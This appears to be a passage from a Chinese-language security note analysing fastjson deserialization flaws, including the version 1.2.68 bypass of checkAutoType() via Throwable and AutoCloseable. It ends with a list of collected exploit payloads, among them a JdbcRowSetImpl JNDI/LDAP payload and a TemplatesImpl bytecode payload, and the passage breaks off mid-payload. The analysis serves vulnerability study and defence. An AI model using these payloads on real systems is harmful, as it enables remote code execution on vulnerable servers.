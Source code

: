### 8. fastjson-1.2.68

在 1.2.47 版本漏洞爆发之后，官方在 1.2.48 对漏洞进行了修复，在 `MiscCodec` 处理 Class 类的地方，设置了cache 为 false ，并且 `loadClass` 重载方法的默认的调用改为不缓存，这就避免了使用了 Class 提前将恶意类名缓存进去。

这个安全修复为 fastjson 带来了一定时间的平静，直到 1.2.68 版本出现了新的漏洞利用方式。

> 影响版本：`fastjson <= 1.2.68`
> 描述：利用 expectClass 绕过 `checkAutoType()` ，实际上也是为了绕过安全检查的思路的延伸。主要使用 `Throwable` 和 `AutoCloseable` 进行绕过。

版本 1.2.68 本身更新了一个新的安全控制点 safeMode，如果应用程序开启了 safeMode，将在 `checkAutoType()` 中直接抛出异常，也就是完全禁止 autoType，不得不说，这是一个一劳永逸的修复方式。

![](../images/1616569998850.png)

但与此同时，这个版本报出了一个新的 autoType 开关绕过方式：利用 expectClass 绕过  `checkAutoType()`。

在 `checkAutoType()` 函数中有这样的逻辑：如果函数有 `expectClass` 入参，且我们传入的类名是 `expectClass` 的子类或实现，并且不在黑名单中，就可以通过 `checkAutoType()` 的安全检测。

![](../images/1616575145371.png)

接下来我们找一下 `checkAutoType()` 几个重载方法是否有可控的 `expectClass` 的入参方式，最终找到了以下几个类：
- `ThrowableDeserializer#deserialze()`
- `JavaBeanDeserializer#deserialze()`

`ThrowableDeserializer#deserialze()` 方法直接将 `@type` 后的类传入 `checkAutoType()` ，并且 expectClass 为 `Throwable.class`。

![](../images/1616590581075.png)

通过 `checkAutoType()` 之后，将使用 `createException` 来创建异常类的实例。

![](../images/1616591945228.png)

这就形成了 `Throwable` 子类绕过 `checkAutoType()` 的方式。我们需要找到 `Throwable` 的子类，这个类的 getter/setter/static block/constructor 中含有具有威胁的代码逻辑。

与 `Throwable` 类似地，还有 `AutoCloseable` ，之所以使用 `AutoCloseable` 以及其子类可以绕过 `checkAutoType()` ，是因为 `AutoCloseable` 是属于 fastjson 内置的白名单中，其余的调用链一致，流程不再赘述。


## 四、payload

以下为部分在各个途径搜集的 payload，版本自测：

JdbcRowSetImpl
```json
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://127.0.0.1:23457/Command8",
    "autoCommit": true
}
```
TemplatesImpl
```json
{
	"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
	"_bytecodes": ["yv66vgA...k="],
	'_name': 'su18',
	'_tfactory': {},
	"_outputProperties": {},
}
```
JndiDataSourceFactory
```json
{
    "@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
```